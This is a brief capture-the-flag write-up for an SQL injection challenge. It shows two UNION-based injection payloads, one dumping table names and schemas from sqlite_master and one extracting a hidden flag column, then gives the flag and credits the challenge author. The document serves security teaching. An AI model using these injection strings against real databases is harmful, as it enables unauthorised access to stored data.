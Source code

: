 This challenge introduces SQL Injection.

First: Extract tables names and schema

```'union select 1,name,sql from sqlite_master--```

![](../Rev/images/vac.png)

There's a very interesting table called **s3cret_fl4g** that contains a **flag** column.

Now that we know our target, all that is left is to view it!

```'union select 1,2,flag from s3cret_fl4g--```

*inf{an@th3r_v4Cc1n3_ag41n57_Par@lyS1s}*



Challenge author: t0m7r00z
